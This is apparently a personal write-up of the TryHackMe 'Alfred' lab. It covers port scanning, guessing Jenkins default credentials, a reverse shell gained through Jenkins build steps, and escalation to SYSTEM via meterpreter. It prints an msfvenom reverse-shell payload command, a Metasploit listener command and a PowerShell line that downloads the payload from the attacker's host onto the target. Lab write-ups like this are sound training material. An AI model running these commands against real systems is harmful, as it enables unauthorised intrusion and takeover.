


THM: Alfred
Intro
This time, other than just populating /etc/hosts with alfred.thm, I
also ran the following, to help me use my standardized notes.
echo "export IP=alfred.thm" >> ~/.bashrc
Reconnaissance
Simple nmap scan to find our open tcp ports:
nmap -sV -sC -oN nmap.initial $IP
And this gives us:
[ ]80 (HTTP)[ ]3389 (TCpwrapped) - Alfred[ ]8080 (HTTP)
Web Analysis: Port 80 Web Server
- Minimal starting web page, started gobuster while trying the usual spots. Nothing of interest came up
- Gobuster with big revealed nothing
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
Web Analysis: Port 8080 Web Server
- Jenkins entry portal
- Robots.txt disallows everything on root
- The password is at this point unknown
- I searched online for the default (and popular) credentials:
- Admin:password (did not work)
- Admin:admin (did not work)
- some other combs
- found the actual one
- I searched online for the default (and popular) credentials:

At this point I viewed another writeup, to see how they had solved that step, since my solution was at best sketchy. Hydra bruteforce was another, better way to go.
Using Alfred
Since I already knew that Alfred is a CI/CD server, even though I had never worked on it, it was relatively simple:
I knew there had to be a way to build the projects, and sure enough that action was directly modifiable.

At this point, it is obvious that we need to get initial foothold through a reverse shell of some kind. I saw the room’s suggestion of uploading and then executing one there, but I first wanted to try it my way.
Using online rev shell generator, I got a reverse shell, but it did not exactly look beautiful. Python did not exist on the system, which made me unable to use the now-standard, pty spawn methodology. However, that did not stop me from getting the flag. Unlikeable is not unusable.
Upgrading our shell
The room then suggests that we get a meterpreter shell, which I again, trying to avoid the walkthrough character of it, did my way.
MSFvenom
Just a simple meterpreter reverse shell:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.67.161 LPORT=6969 -f exe -o reverse.exe
Meterpreter listener
Get the listener up and running
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.67.161; set lport 6969; exploit"
Downloading File
My experience with windows is quite limited and that’s why I had to go into a little bit more research to get this over with :(
Having found an interesting article in the Command Line Kung Fu blog, I started with the following
powershell -c '(New-Object System.Net.WebClient).DownloadFile("http://10.10.67.161:8000/reverse.exe","c:\Users\bruce\reverse.exe")'
But it did not work. Even though it did not return any error codes, I could see in my simple python server that no requests had been made. Evidently it did not need that many modifications to work, it is just that I may have used a syntax that resembled way too much this procedure in Linux.
Privilege escalation
Sadly getsystem works perfectly, and we get NT AUTHORITY\SYSTEM,
without it being necessary to do anything.